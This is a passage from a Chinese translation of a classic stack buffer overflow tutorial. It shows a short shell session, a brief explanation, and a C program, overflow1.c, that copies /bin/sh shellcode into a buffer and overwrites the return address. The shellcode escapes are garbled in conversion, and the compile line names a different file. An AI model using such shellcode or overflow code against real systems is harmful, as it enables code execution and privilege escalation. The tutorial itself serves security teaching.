 [aleph1]$ ./testsc2

$ exit
  
[aleph1]$

------------------------------------------------------------------------------

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;破解实战&nbsp;&nbsp;

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; ~~~~~~~~~~

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; 

&nbsp; &nbsp; 现在把手头的工具都准备好. 我们已经有了shellcode. 我们知道shellcode必须是被

溢出的字符串的一部分. 我们知道必须把返回地址指回缓冲区. 下面的例子说明了这几点:

overflow1.c

------------------------------------------------------------------------------

char shellcode[] =

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""xeb"x1f"x5e"x89"x76"x08"x31"xc0"x88"x46"x07"x89"x46"x0c"xb0"x0b"

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""x89"xf3"x8d"x4e"x08"x8d"x56"x0c"xcd"x80"x31"xdb"x89"xd8"x40"xcd"

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""x80"xe8"xdc"xff"xff"xff/bin/sh";

char large_string[128];

void main() {

&nbsp;&nbsp;char buffer[96];

&nbsp;&nbsp;int i;

&nbsp;&nbsp;long *long_ptr = (long *) large_string;

&nbsp;&nbsp;for (i = 0; i &lt; 32; i++)

&nbsp; &nbsp; *(long_ptr + i) = (int) buffer;

&nbsp;&nbsp;for (i = 0; i &lt; strlen(shellcode); i++)

&nbsp; &nbsp; large_string[i] = shellcode[i];

&nbsp;&nbsp;strcpy(buffer,large_string);

}

------------------------------------------------------------------------------

------------------------------------------------------------------------------
  
[aleph1]$ gcc -o exploit1 exploit1.c
  